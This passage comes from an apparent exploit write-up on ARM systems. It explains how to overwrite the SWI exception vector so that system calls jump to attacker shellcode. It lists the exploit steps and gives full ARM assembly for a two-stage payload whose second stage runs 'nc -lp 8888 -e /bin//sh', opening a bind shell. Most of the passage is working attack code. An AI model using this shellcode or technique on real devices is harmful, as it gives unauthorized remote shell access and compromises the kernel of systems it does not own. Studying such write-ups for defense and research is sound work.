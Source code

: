 Every system call goes through the SWI vector so we won't have to wait too much for a process to get caught in our trap.

### The Exploit
Our exploit goes:  
    1. Store our first stage and second stage shellcodes at *0xffff0020* (one after the other).  
    2. Overwrite the SWI exception vector with a branch to *0xffff0020*.  
    3. When a system call occurs, our first stage shellcode will set the link register to the address of our second stage shellcode (which is also stored in the EVT and which will be executed from userland), and then return to userland.  
    4. The calling process will "resume execution" at the address of our second stage which is just a bind shell.  

Here is the stage 1-2 shellcode:

```text
    stage_1:
        adr     lr, stage_2
        push    {lr}
        stmfd   sp!, {r0-r12}
        ldr     r0, =0xe59ff410     ; intial value at 0xffff0008 which is
                                    ; ldr     pc, [pc, #1040] ; 0xffff0420
        ldr     r1, =0xffff0008
        str     r0, [r1]
        ldmfd   sp!, {r0-r12, pc}^  ; return to userland
    
    stage_2:
        ldr     r0, =0x6e69622f     ; /bin
        ldr     r1, =0x68732f2f     ; /sh
        eor     r2, r2, r2          ; 0x00000000
        push    {r0, r1, r2}
        mov     r0, sp
    
        ldr     r4, =0x0000632d     ; -c\x00\x00
        push    {r4}
        mov     r4, sp
    
        ldr     r5, =0x2d20636e
        ldr     r6, =0x3820706c
        ldr     r7, =0x20383838     ; nc -lp 8888 -e /bin//sh
        ldr     r8, =0x2f20652d
        ldr     r9, =0x2f6e6962
        ldr     r10, =0x68732f2f
    
        eor     r11, r11, r11
        push    {r5-r11}
        mov     r5, sp
        push    {r2}
    
        eor     r6, r6, r6
        push    {r0,r4,r5, r6}
        mov     r1, sp
        mov     r7, #11
        swi     0x0
    
        mov     r0, #99
        mov     r7, #1
        swi     0x0
```   
